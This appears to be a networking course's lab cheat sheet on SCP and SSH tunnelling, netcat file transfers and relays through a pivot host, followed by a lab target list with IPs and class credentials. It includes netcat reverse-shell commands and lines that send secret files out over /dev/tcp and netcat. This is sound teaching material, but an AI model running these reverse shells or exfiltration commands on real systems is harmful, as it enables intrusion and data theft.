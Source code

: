 scp -P

----------------------------------------------------------------------------------------------------
SCP Syntax through a tunnel
Create a local port forward to target device
$ ssh student@172.16.82.106 -L 1111:localhost:22 -NT
Download a file from a remote directory to a local directory
$ scp -P 1111 student@localhost:secretstuff.txt /home/student
Upload a file to a remote directory from a local directory
$ scp -P 1111 secretstuff.txt student@localhost:/home/student

----------------------------------------------------------------------------------------------------
SCP Syntax through a Dynamic Port forward
Create a Dynamic Port Forward to target device
$ ssh student@172.16.82.106 -D 9050 -NT
Download a file from a remote directory to a local directory
$ proxychains scp student@localhost:secretstuff.txt .
Upload a file to a remote directory from a local directory
$ proxychains scp secretstuff.txt student@localhost:

----------------------------------------------------------------------------------------------------
NETCAT: Client to Listener file transfer
Listener (receive file):

nc -lvp 9001 > newfile.txt
Client (sends file):

nc 172.16.82.106 9001 < file.txt

----------------------------------------------------------------------------------------------------
NETCAT: Listener to Client file transfer
Listener (sends file):

nc -lvp 9001 < file.txt
Client (receive file):

nc 172.16.82.106 9001 > newfile.txt

----------------------------------------------------------------------------------------------------
NETCAT Relay Demos
Listener - Listener

On Blue_Host-1 Relay:

$ mknod mypipe p
$ nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe
On Internet_Host (send):

$ nc 172.16.82.106 1111 < secret.txt
On Blue_Priv_Host-1 (receive):

$ nc 192.168.1.1 3333 > newsecret.txt

----------------------------------------------------------------------------------------------------
NETCAT Relay Demos
Client - Client

On Internet_Host (send):

$ nc -lvp 1111 < secret.txt
On Blue_Priv_Host-1 (receive):

$ nc -lvp 3333 > newsecret.txt
On Blue_Host-1 Relay:

$ mknod mypipe p
$ nc 10.10.0.40 1111 < mypipe | nc 192.168.1.10 3333 > mypipe

----------------------------------------------------------------------------------------------------
NETCAT Relay Demos
Client - Listener

On Internet_Host (send):

$ nc -lvp 1111 < secret.txt
On Blue_Priv_Host-1 (receive):

$ nc 192.168.1.1 3333 > newsecret.txt
On Blue_Host-1 Relay:

$ mknod mypipe p
$ nc 10.10.0.40 1111 < mypipe | nc -lvp 3333 > mypipe

----------------------------------------------------------------------------------------------------
NETCAT Relay Demos
Listener - Client

On Internet_Host (send):

$ nc 172.16.82.106 1111 < secret.txt
On Blue_Priv_Host-1 (receive):

$ nc -lvp 3333 > newsecret.txt
On Blue_Host-1 Relay:

$ mknod mypipe p
$ nc -lvp 1111 < mypipe | nc 192.168.1.10 3333 > mypipe

----------------------------------------------------------------------------------------------------
File Transfer with /dev/tcp
On the receiving box:

$ nc -lvp 1111 > devtcpfile.txt
On the sending box:

$ cat secret.txt > /dev/tcp/10.10.0.40/1111
This method is useful for a host that does not have NETCAT available.

----------------------------------------------------------------------------------------------------
Reverse shell using NETCAT
First listen for the shell on your device.

$ nc -lvp 9999
On Victim using -c :

$ nc -c /bin/bash 10.10.0.40 9999
On Victim using -e :

$ nc -e /bin/bash 10.10.0.40 9999

----------------------------------------------------------------------------------------------------
Target Section:

Task 1

T1
Hostname: INTERNET_HOST
External IP: 10.50.XXX.XXX (ALREADY PROVIDED) Internal IP: 10.10.0.40 (ALREADY PROVIDED) (accessed via FLOAT IP)
creds: student:password
Action: Successfully transfer file data between hosts via Netcat

T2
Hostname: BLUE_HOST-4
IP: 172.16.82.115
creds: (No Access)
Action: Successfully transfer files from this host using Netcat

RELAY
Hostname: BLUE_INT_DMZ_HOST-1
IP: 172.16.40.10
creds: student:password
Action: Successfully transfer file data between hosts via Netcat



Task 3

T3
Hostname: Atropia
IP: 10.50.XXX.XXX (Will be Provided by Mission Command)
creds: netY_studentX:passwordX (netY = Networking Class Identifier & studentX = Student Number & passwordX = Student Number)
Known Ports: 22(ssh)
Action: Establish appropriate tunneling techniques

T4
Hostname: Pineland
IP: 10.50.XXX.XXX (Will be Provided by Mission Command)
creds: netY_studentX:passwordX (netY = Networking Class Identifier & studentX = Student Number & passwordX = Student Number)
Known Ports: 23(telnet - go directly from T1 to T4 to simulate compromising the machine)
Type: Compromised Donovian System
Action: Establish appropriate tunneling techniques



Task 4
T5
Hostname: UNKNOWN
IP: 10.50.XXX.XXX (Will be Provided by Mission Command)
creds: netY_studentX:passwordX (netY = Networking Class Identifier & studentX = Student Number & passwordX = Student Number)
Known Ports: UNKNOWN
Action: Execute proper movement and redirection techniques
